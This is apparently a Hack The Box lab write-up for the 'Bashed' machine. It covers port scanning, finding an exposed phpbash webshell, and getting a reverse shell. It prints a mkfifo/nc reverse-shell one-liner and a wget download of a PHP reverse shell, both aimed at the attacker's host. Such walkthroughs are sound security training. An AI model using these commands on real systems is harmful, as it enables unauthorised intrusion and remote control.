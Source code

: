 # Bashed - hack the box

[![AgdMvj.md.png](https://s2.ax1x.com/2019/04/03/AgdMvj.md.png)](https://imgchr.com/i/AgdMvj)

## Introduction

Target: 10.10.10.68 (OS: Linux)

Kali linux: 10.10.16.44

## Information Enumeration

Firstly, detect the open ports:

```    
# Nmap 7.70 scan initiated Wed Apr  3 20:48:43 2019 as: nmap -sT -p- --min-rate 10000 -oA openports 10.10.10.68
Warning: 10.10.10.68 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.68
Host is up (0.31s latency).
Not shown: 39680 closed ports, 25854 filtered ports
PORT   STATE SERVICE
80/tcp open  http
```

Only port 80 is open, it may be an easy box. And the truth is that it is really an easy box.

Then, detect the services of the port 80, it may be a kind of http serve.

```
# Nmap 7.70 scan initiated Wed Apr  3 20:55:27 2019 as: nmap -sC -sV -p 80 -oA services 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Nothing special. Then access the http serve and find more.

## Exploit

### Http

Access to `http://10.10.10.68`, and it seems to be a simple blog which talks about `phpbash`.

![AgfJCd.png](https://s2.ax1x.com/2019/04/04/AgfJCd.png)

`phpbash` seems to be a webshell tool. And there is a github repository [phpbash](https://github.com/Arrexel/phpbash) introduce the tool. The introduction of the repo is to drop the file to target and access it by `http://ip/uploads/phpbash.php`. We try to access `http://10.10.10.68/uploads/phpbash.php`. But the file sems not to be here.

Utilize the dirbuster to enumerate the directories.

![AgfTPJ.png](https://s2.ax1x.com/2019/04/04/AgfTPJ.png)

Wow. Find it and open the file `phpbash.php`. Here is the webshell. I have tried to reverse shell by `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.44 1234 >/tmp/f`. But the shell cannot be return. Whatever, I can obtain the user.txt.

![AghFMt.png](https://s2.ax1x.com/2019/04/04/AghFMt.png)

It is convenient to get the reverse shell. So I try to upload a php shell to the target machine. The detailed php script can be found [here](https://github.com/neal1991/htb/blob/master/Bashed/php-reverse-shell.php). And I server the php script by `python -m SimpleHTTPServer 80`. Then download the php script from the target machine. To ensure the script can be written to the target machine. Select a path can be written, for example: `/tmp`.

[![AghBsx.png](https://s2.ax1x.com/2019/04/04/AghBsx.png)](https://imgchr.com/i/AghBsx)

`wget http://10.10.16.44/php-reverse-shell.php`

Then in the kali, set the `nc` listen to port 1234:

`nc -lvnp 1234`

Execute the php script in the target machine `php php-reverse-shell.php`. OK. We obtain the reverse shell.

[![AghhQI.png](https://s2.ax1x.com/2019/04/04/AghhQI.png)](https://imgchr.com/i/AghhQI)





